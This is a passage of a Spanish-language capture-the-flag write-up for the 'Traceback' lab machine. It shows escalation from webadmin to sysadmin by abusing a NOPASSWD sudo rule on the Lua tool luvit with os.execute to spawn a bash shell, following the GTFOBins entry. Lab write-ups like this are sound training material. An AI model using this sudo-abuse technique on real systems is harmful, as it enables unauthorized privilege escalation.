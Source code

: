 Revisando el directorio personal del usuario `webadmin`, nos encontramos con un archivo de texto llamado `note.txt` el cual indica que el usuario `sysadmin`le ha proporcionado al usuario `webadmin` una herramienta para practicar con el lenguaje de programación `Lua`, además indica que el usuario ya debería saber como encontrarlo.

```bash
webadmin@traceback:/home/webadmin$ ls
note.txt
webadmin@traceback:/home/webadmin$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Revisando si el usuario `webadmin` dispone de algún permiso de `sudoers`, nos encontramos en que puede ejecutar como el usuario `sysadmin`el binario de `/home/sysadmin/luvit`, una herramienta para practicar `Lua`.

```bash
webadmin@traceback:/home/webadmin$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Revisando a través de la herramienta de [`searchbins`](https://github.com/r1vs3c/searchbins) nos encontramos que podemos abusar del lenguaje de programación`Lua`para poder obtener una `shell`, en este caso, una `shell` como el usuario `sysadmin`.

```bash
❯ searchbins -b lua -f sudo

[+] Binary: lua

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/lua/#sudo]

	| sudo lua -e 'os.execute("/bin/sh")'
```

A través de este privilegio de `sudoers`sobre el binario indicado, finalmente conseguiremos disponer de una `bash`como el usuario `sysadmin`y podremos visualizar la flag **user.txt**.

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'
sysadmin@traceback:/home/webadmin$ whoami
sysadmin
sysadmin@traceback:/home/webadmin$ cat /home/sysadmin/user.txt 
3f00****************************
```
